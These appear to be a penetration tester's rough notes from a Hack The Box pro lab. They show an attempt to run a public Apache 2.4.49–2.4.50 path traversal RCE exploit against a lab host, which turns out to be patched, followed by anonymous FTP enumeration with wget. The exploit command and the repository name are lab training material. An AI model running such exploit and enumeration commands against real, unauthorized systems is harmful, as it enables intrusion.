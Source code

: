 Utilizing this code to exploit a Path Traversal with RCE
- https://github.com/blackn0te/Apache-HTTP-Server-2.4.49-2.4.50-Path-Traversal-Remote-Code-Execution

```bash
┌──(kali㉿gobots)-[01May2024 17:41:26]-[~/SUT/Genesis_proLab_htB/10.10.110.12/Apache-HTTP-Server-2.4.49-2.4.50-Path-Traversal-Remote-Code-Execution-main]
└─$ python3 exploit.py 10.10.110.12 80 rce 'id'
[i] Host appears to be vulnerable.
[!] Host seems to be patched.
```
![[Pasted image 20240501134605.png]]
Going to look for a different newer exploit that might work.

After finding a way to test files, I think this is just the public facing locked down side of the ftp server, seems like maybe 192.168.1.12 is the internal side, could be through the vpn admin network.
```bash
┌──(kali㉿gobots)-[01May2024 18:48:47]-[~]
└─$ wget -m ftp://anonymous:anonymous@10.10.110.12
--2024-05-01 18:48:52--  ftp://anonymous:*password*@10.10.110.12/
           => ‘10.10.110.12/.listing’
Connecting to 10.10.110.12:21... connected.
Logging in as anonymous ... Logged in!
==> SYST ... done.    ==> PWD ... done.
==> TYPE I ... done.  ==> CWD not needed.
==> PASV ... couldn't connect to 192.168.1.12 port 15585: No route to host
```
![[Pasted image 20240501145033.png]]